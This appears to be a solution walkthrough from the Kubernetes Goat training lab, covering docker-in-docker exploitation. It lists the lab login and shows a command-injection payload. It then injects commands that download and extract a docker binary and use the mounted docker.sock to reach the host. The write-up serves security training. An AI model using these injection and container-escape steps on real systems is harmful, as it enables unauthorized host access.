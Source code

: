 # DIND (docker-in-docker) exploitation

## Scenario Information

Most of the CI/CD and pipeline systems that use Docker and build containers for you within the pipeline use something called DIND (docker-in-docker). Here in this scenario, we try to exploit and gain access to the host system.

* To get started with the scenario, navigate to [http://127.0.0.1:1231](http://127.0.0.1:1231) and username is `admin` and password `kubernetesgoat`

![Scenario 2 Login](images/sc-2-1.png)

![Scenario 2 Home](images/sc-2-2.png)

## Scenario Solution

* By looking at application functionality, identified that it has command injection vulnerability

```bash
madhuakula.com; id
```

![Scenario 2 Command Injection](images/sc-2-3.png)

* After performing quite some analysis, identified the there is a `docker.sock` mount available in the file system

```bash
mount
```

![Scenario 2 mount](images/sc-2-4.png)

* Download the `docker` static binary from internet [https://download.docker.com/linux/static/stable/](https://download.docker.com/linux/static/stable/)

```bash
;wget https://download.docker.com/linux/static/stable/x86_64/docker-19.03.9.tgz -O /tmp/docker-19.03.9.tgz
```

![Scenario 2 download docker binary](images/sc-2-5.png)

* Extract the binary from the `docker-19.03.9.tgz` file

```bash
;tar -xvzf /tmp/docker-19.03.9.tgz -C /tmp/
```

![Scenario 2 extract binary](images/sc-2-6.png)

* Access the host system by running the following docker commands with `docker.sock`

```bash
;/tmp/docker/docker -H unix:///custom/docker/docker.sock ps
;/tmp/docker/docker -H unix:///custom/docker/docker.sock images
```

![Scenario 2 extract binary](images/sc-2-7.png)

## Miscellaneous

TBD
